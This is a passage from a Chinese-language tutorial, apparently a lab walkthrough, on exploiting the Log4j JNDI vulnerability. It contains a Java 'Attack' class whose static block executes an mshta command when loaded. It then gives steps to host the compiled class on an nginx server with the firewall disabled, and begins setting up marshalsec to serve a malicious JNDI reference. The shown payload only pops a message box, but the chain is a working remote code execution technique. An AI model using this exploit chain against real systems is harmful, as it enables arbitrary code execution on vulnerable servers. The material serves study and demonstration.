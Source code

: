 > liunx版本的攻击代码。

``` java
import java.io.IOException;

/**
 * @author fuping
 */
public class Attack {
    static {
        try {
            Runtime.getRuntime().exec("cmd /c mshta vbscript:msgbox(\"有人从你的log4j进来了\",64,\"来自熊猫头的消息\")(window.close)");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

> windows版本的攻击代码。

**第二步：发布攻击代码到文件服务器**

1. 在虚拟机centos系统中安装nginx。可以使用一下命令安装：`yum -y  install nginx`

2. 找到hmtl文件夹。可以使用一下命令搜索：`find / -type d -name html`  

   > 这里我搜索到路径是 /usr/share/nginx/html。  

3. 上传编译好的class文件到搜索的html文件夹下。

4. 启动nginx。命令如下：`sudo nginx`

5. 使用虚拟主机ip+端口+文件名称尝试下载文件。

   > 这里我的下载地址为 http://172.16.102.19/Attack.class 。如果出现不能下载的情况请检查防火墙是否打开 命令如下：

   ```  shell
   systemctl status firewalld                             #防火墙状态
   systemctl stop firewalld.service                       #关闭防火墙
   firewall systemctl disable firewalld.service           #禁止防火墙开机启动 
   ```

6. 测试下载成功第二步完成进行下一步。

第三步：使用[marshalsec](https://github.com/mbechler/marshalsec)发布jndi服务。

1. 安装jdk1.8.0_312。

   > 1. 上传jdk-8u221-linux-x64.tar.gz到虚拟机。
   >
   > 2. 创建/opt/java目录。创建命令：`mkdir /opt/java`
   >
   > 3. 解压jdk到/opt/java目录下 。解压命令：`tar -zxf jdk-8u221-linux-x64.tar.gz -C /opt/java`
   >
   > 4. 配置环境变量。命令:`sudo vim /etc/profile`. （如果没有安装vim 可以使用 `yum -y install vim`进行安装。）在profile文件最底部追加：
   >
   >    > ``` shell
   >    > export JAVA_HOME=/opt/java/jdk1.8.0_221
   >    > export JRE_HOME=/opt/java/jdk1.8.0_221/jre 
   >    > export CLASSPATH=.:$JAVA_HOME/lib/dt.jar:$JAVA_HOME/lib/tools.jar:$JRE_HOME/lib:$CLASSPATH export PATH=$PATH:$JAVA_HOME/bin  
   >    > ```
   >
   >      
   >
   > 5. 重新加载配置。执行命令 :`source /etc/profile`
   >
   > 6. 测试jdk是否安装成功。执行命令: `java -version`
